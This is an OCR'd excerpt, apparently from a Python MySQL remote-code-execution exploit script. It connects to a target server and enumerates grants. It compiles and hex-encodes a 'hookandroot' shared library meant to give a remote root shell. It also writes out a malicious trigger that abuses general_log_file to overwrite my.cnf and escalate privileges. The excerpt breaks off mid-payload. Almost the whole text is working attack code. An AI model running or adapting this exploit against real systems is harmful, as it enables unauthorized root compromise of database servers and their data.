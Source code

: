 ~~~~~~~~~~~~~~~~~~~~~~~~~
# CREATE requirement could be bypassed (malicious trigger could be attached to existing tables)
info("Connecting to target server %s and target mysql account '%s@%s' using DB '%s'" % (args.TARGET_HOST, args.TARGET_USER, args.TARGET_HOST, args.TARGET_DB))
try:
    dbconn = mysql.connector.connect(user=args.TARGET_USER, password=args.TARGET_PASS, database=args.TARGET_DB, host=args.TARGET_HOST)
except mysql.connector.Error as err:
    errmsg("Failed to connect to the target: {}".format(err))
    shutdown(1)

try:
    cursor = dbconn.cursor()
    cursor.execute("SHOW GRANTS")
except mysql.connector.Error as err:
    errmsg("Something went wrong: {}".format(err))
    shutdown(2)

privs = cursor.fetchall()
info("The account in use has the following grants/perms: " )
for priv in privs:
    print priv[0]
print ""


# Compile mysql_hookandroot_lib.so shared library that will eventually hook to the mysqld 
# process execution and run our code (Remote Root Shell)
# Remember to match the architecture of the target (not your machine!) otherwise the library
# will not load properly on the target.
info("Compiling mysql_hookandroot_lib.so")
cmd = "gcc -Wall -fPIC -shared -o mysql_hookandroot_lib.so mysql_hookandroot_lib.c -ldl"
process = subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
(result, error) = process.communicate()
rc = process.wait() 
if rc != 0:
    errmsg("Failed to compile mysql_hookandroot_lib.so: %s" % cmd)
    print error 
    shutdown(2)

# Load mysql_hookandroot_lib.so library and encode it into HEX
info("Converting mysql_hookandroot_lib.so into HEX")
hookandrootlib_path = './mysql_hookandroot_lib.so'
with open(hookandrootlib_path, 'rb') as f:
    content = f.read()
    hookandrootlib_hex = binascii.hexlify(content)

# Trigger payload that will elevate user privileges and successfully execute SET GLOBAL GENERAL_LOG 
# in spite of the lack of SUPER/admin privileges (attacker only needs SELECT/FILE privileges)
# Decoded payload (paths may differ) will look similar to:
"""
DELIMITER //
CREATE DEFINER=`root`@`localhost` TRIGGER appendToConf
AFTER INSERT
   ON `poctable` FOR EACH ROW
BEGIN

   DECLARE void varchar(550);
   set global general_log_file='/var/lib/mysql/my.cnf';
   set global general_log = on;
   select "

# 0ldSQL_MySQL_RCE_exploit got here :)

~~~~~~~~~~~~~~~~~~~~~~~~~